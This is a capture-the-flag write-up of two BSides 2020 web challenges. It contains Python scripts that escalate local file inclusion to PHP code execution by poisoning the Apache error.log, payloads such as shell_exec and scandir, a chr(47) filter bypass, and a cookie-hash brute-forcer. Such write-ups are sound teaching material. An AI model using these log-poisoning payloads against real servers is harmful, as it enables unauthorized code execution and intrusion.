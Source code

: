 # Log
## Description

GET the right file.

Author: Ph03N1X

[Link](http://3.7.251.179/) 

## Solution
#### Recon
First, we opened the website, there we given lots of links. But when we clicked on most of the link, we were greeted with an error page. After some observation, we realized that there is a link that's different with another link.

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_1.png) 

Clicking on that link would redirect us to a different page :

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_2.png).

We also learned some things in this phase :
- There are some files that we can't get (.htaccess would return 403 Forbidden)
- The server was run in Apache (we know it from error message that was triggered when we requested a non-existent file )

#### LFI
After that, we spent some times figuring what to do next. With the hint in the title (_**Log**_) and the info that the server run in Apache, we assumed that we have to read the log file. So... LFI perhaps?

We tried the word 'file' as parameter to include file, and it works!

 ![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_3.png) 
 
#### Journey to RCE

Okay, so far we can do LFI, but no sign of flag here... So we assumed that we have to escalate our LFI to RCE. Doing a data:// wrapper wasn't working because of _allow_url_include_ config was set to 0. 

Finally, we tried a RCE by using Apache log file. There are two types of Apache log file : **access.log** (For logging successful requests) and **error.log** (For logging failed requests). But, when we include access.log, we were failed because the file isn't exist. So, we tried to include error.log and it worked. 

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_4.png) 

#### Triggering error.log

So next we have to trigger error.log to log our failed request. We can do it by requesting .htaccess. But how to log our crafted request?

Turns out, it was possible to request .htaccess[ABRITRARY_STRING] to trigger the logging. So we successfully logged our crafted request. 

Here's a script that automated our request.

	import requests
	link = "http://3.7.251.179/"
	
	log = 'http://3.7.251.179/click-here_00.php?file=/var/log/apache2/error.log'
	def gs(pl):
		return link + '.htaccess' + pl
	
	payload = '<%3Fphp echo "PAYLOAD HERE" %3F>'
	r = requests.get(gs(payload))
	r2 = requests.get(log)
	print(r2.text)

#### Filter Bypassing

Yay! We can do LFI to error.log, so we can do a RCE...

...right?

It's not that easy. The system seems to blocked some strings so we can't do a RCE easily.

First, obviously we tried to executed some script to execute `shell_exec`. So we tried executing `<%3Fphp echo shell_exec("id") %3F>` as our payload with the script. And the result?

> [authz_core:error] [pid 84] [client 114.4.219.126:54871] AH01630: client denied by server configuration: /var/www/html/.htaccess<?php echo shell_exec("id"); ?>

Oops! Seems that we can't do `shell_exec` here.

Let's try another approach. How if we do a path traversal to find the flag with scandir() function?  We tried `<%3Fphp var_dump(scandir("/")); %3F>` but it doesn't work. So we bypassed the "/" filter by using chr(47) and it worked.

Long story short, after some path traversals, we found an interesting file in `/f/l/a/g/somethingUneed.txt`. And including it in our LFI will return our flag.

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Log_5.png) 

**Flag** :  `BSDCTF{L0cal_f1L3_InClu$10N_1$_v3RY_P015On0u$} `

**Disclaimer** : Some of the exploit in this writeup doesn't work in the writeup making phase.


# Robot Master
## Description

You know what to do, collect them all.

Author: Ph03N1X

[Link](http://15.206.202.26/) 

## Solution
#### Recon
As the title, the first thing we saw is the `robots.txt` file. We found an interesting file in /cookie.php
![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Robot_1.png) 

Opening `cookie.php` revealing us some interesting cookies.

![](https://raw.githubusercontent.com/kerupuksambel/ctf-writeup/master/BSides_2020/img/Robot_2.png) 

#### Cookie Unifying
Trying to google the value of `Our_Favourite_Cookie` tells us that the value is actually a SHA256 hash of 'O'. Then, when we change the value of `Piece`, we got a different hash. Realizing that this maybe is a SHA256 of an individual letter of a flag, we tried to automate the process. Here's the script we craft to request every hash piece of the flag.

	import requests
	import hashlib
	import string
	
	link = 'http://15.206.202.26/cookie.php'
	
	poss = string.printable
	table = {}
	
	flag = ""
	
	for _ in poss:
		sha = hashlib.sha256(_.encode()).hexdigest()
		table[_] = sha
	
	for i in range(50):
		cookie = {
			"Piece" : str(i),
			"Our_Fav_Cookie" : "rinrin!"
		}
		r = requests.get(link, cookies=cookie)
	
		d = (dict(r.cookies))
		for t in table:
			if table[t] == d["Our_Fav_Cookie"]:
				flag += t
	
		print(flag)

After running the script, we realized there's a flag-like string on the result, 
> OFQPGS{P00x135_ne3_o35g_cy4p3_70_pu3px}

Shifting the string with Caesar cipher with N = 13 giving us our flag.

**Flag** : `BSDCTF{C00k135_ar3_b35t_pl4c3_70_ch3ck}`
